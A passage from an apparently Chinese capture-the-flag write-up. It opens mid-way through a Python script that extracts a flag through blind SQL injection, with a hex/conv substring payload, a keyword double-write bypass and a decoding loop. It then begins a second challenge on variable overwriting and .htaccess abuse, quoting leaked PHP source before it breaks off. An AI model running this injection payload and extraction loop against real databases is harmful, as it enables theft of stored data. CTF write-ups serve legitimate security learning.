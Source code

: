 ```python
        r=r[r.index("said 2019-09-30T00:00:00Z:")+len("said 2019-09-30T00:00:00Z:")+14:].replace("\n","")
        return r
    else :
        raise RuntimeError("post失败")

login(session)
#'+hex('a'),"1","2019-09-30")#
#conv(hex((selselectect '123')),16,10)
#database():flask
#table=flag,llowe
sql="'+SQL,'1','2019-09-30')#"
#table
sql=sql.replace("SQL","conv(hex((substr((SELECT flag from flag),INDEX,5))),16,10)")
i=1
result=""
while 1:
    res=post(session,sql.replace("INDEX",str(i)))
    i+=5
    print(sql.replace("INDEX",str(i)))
    if res=="":
        break
    else :
        ss=hex(int(res))[2:]
        for j in range(0,len(ss),2):
            result+=chr(int(ss[j:j+2],16))
    print(result)
```



### blgdel

这题很有意思,刚开始看的时候以为会是sql注入,结果最后是奇葩的变量覆盖+.htaccess文件利用

注册登录,sql注入,目录扫描都做一遍

找到了sql.txt和config.txt

```php
<?php

class master
{
	private $path;
	private $name;
	
	function __construct()
	{
		
	}
	
	function stream_open($path)
	{
		if(!preg_match('/(.*)\/(.*)$/s',$path,$array,0,9))
			return 1;
		$a=$array[1];
		parse_str($array[2],$array);
		
		if(isset($array['path']))
		{
			$this->path=$array['path'];
		}
		else
			return 1;
		if(isset($array['name']))
```